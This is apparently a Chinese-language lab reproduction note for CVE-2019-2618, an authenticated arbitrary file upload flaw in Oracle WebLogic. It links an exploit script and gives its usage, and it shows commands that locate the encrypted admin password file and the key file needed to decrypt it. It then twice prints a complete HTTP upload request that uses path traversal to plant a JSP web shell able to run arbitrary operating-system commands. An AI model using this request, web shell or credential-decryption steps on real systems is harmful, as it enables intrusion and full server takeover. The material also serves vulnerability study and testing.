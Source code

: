 cve-2019-2618
=============

一、漏洞简介
------------

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

三、复现过程
------------

<https://github.com/ianxtianxt/cve-2019-2618>

### python使用

    python CVE-2019-2618.py url username password

![](./.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId26.jpg)
![](./.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId27.jpg)

### 解密weblogic密码

    root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
    password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
    root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
    /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
    root@f0cb7e674d7e:~/Oracle# 

    weblogic 账号密码： weblogic/Oracle@123

![](./.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId29.jpg)

### 使用docker搭建环境

参考vulnhub

    root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
    1.png  docker-compose.yml  README.md  set_mirror.sh
    root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d

![](./.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId31.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1081

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW--

### 也可以换个目录上传

    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
    bea_wls_internal 
    bea_wls_deployment_internal 在同目录
    这是漏洞war位置

![](./.resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId33.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1084

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell111.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW-
